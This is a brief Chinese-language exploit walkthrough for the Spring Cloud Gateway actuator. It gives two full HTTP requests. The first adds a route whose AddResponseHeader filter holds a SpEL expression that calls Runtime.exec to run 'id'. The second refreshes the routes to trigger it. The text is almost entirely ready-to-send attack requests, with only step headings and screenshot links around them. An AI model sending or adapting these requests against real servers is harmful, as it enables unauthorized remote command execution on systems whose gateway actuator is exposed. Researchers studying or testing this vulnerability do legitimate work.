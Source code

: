 漏洞利用：

手动需要分多步：

### 第一步添加路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}

```

![](/zj_img/WEBRESOURCEc9d04e3193ba7d67a1469dd004d07f8d截图.png)

### 第二步刷新路由：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: 192.168.2.66:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 0


```

![](/zj_img/WEBRESOURCE0c2424564c990f5f0cbe87e0fdda917d截图.png)
